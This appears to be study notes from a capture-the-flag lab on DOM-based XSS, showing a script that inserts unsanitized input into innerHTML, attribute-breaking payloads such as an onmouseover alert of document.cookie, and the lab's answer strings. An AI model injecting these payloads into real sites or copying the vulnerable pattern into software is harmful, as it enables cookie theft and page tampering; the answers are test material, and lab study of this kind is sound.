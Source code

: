 
```
<script>
      // LOOK HERE!
      document.querySelector('#update').addEventListener("click", function() {
        let imgURL = document.querySelector('#img-url').value // input URL
        const imgEl = document.querySelector('#img') // Image div element
        imgEl.innerHTML = '<img src="' + imgURL + '" alt="Image not found.." width=400>' // Creating image element
      });
    </script>

test" onmouseover="alert('Hover over the image and inspect the image element')"

so

test" onmouseover="alert(document.cookie)"
Answer: BreakingAnElementsTag

or

"onmouseover="alert(document.cookie)"

nothing happens after

test" onhover="document.body.style.backgroundColor = 'red';

so

with onmouseover

test" onmouseover="document.body.style.backgroundColor = 'red';

Answer: JavascriptIsAwesome

```

![[Pasted image 20221002203605.png]]

![[Pasted image 20221002212305.png]]

![[Pasted image 20221002212407.png]]

Look at the deployed machines DOM-Based XSS page source code, and figure out a way to exploit it by executing an alert with your cookies.
Try entering: test" onmouseover="alert('Hover over the image and inspect the image element')"

*BreakingAnElementsTag*



Create an onhover event on an image tag, that change the background color of the website to red.
document.body.style.backgroundColor = "red"
![[Pasted image 20221002212936.png]]
